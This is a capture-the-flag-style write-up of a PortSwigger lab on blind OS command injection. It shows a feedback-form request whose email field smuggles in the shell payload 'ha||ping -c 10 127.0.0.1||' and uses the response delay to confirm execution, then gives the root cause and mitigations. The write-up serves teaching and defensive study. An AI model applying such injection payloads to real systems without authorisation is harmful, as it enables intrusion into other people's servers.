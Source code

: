 💻 Blind OS Command Injection – With Time Delays
🧠 Difficulty: Apprentice
📚 Platform: PortSwigger Web Security Academy
👩‍💻 Author: Kaouthar Belkebir

📌 Lab Description
This lab is vulnerable to blind OS command injection via the feedback form.

The application executes a shell command based on submitted data but doesn't return the output.

✅ Goal: Exploit the injection to perform a time delay using ping, confirming code execution.

🧪 Exploitation Strategy
🧩 The Trick:
Because it's blind, we can't see the output.
So we use a time delay (e.g., ping) to observe if the system waits, which confirms execution.

📥 Intercepted Request (Burp Suite)
http
Copy
Edit
POST /feedback/submit HTTP/2
Host: [LAB_DOMAIN]
Cookie: session=pKZ4noaM5dQpCAdmpBSs1eCJKla9waju
Content-Type: application/x-www-form-urlencoded

csrf=...&
name=helio&
email=ha||ping+-c+10+127.0.0.1||cer@gmail.com&
subject=hello&
message=hakennhu
⏱️ The server responds after ~10 seconds — proof of command injection.

🧠 Why This Works
bash
Copy
Edit
ha||ping -c 10 127.0.0.1||cer@gmail.com
The injected ping command causes a deliberate delay.

The shell executes the payload because the input is unsanitized.

🔬 Root Cause
The app concatenates unvalidated user input into a shell command.

Lack of sanitization makes command injection trivial.

✅ Confirmation & Solution
The delayed response confirms the command executed.

This completes and solves the lab ✔️

🛡️ Mitigation Strategies
Avoid shell command concatenation with user input.

Use safe system APIs (e.g., execFile instead of exec in Node.js).

Apply input validation (whitelisting, escaping).

🖼️ Screenshot
![Blind OS Command Injection – Time Delay](https://github.com/Kabilala/OS-command-injection/blob/main/lab2/lab2.png)
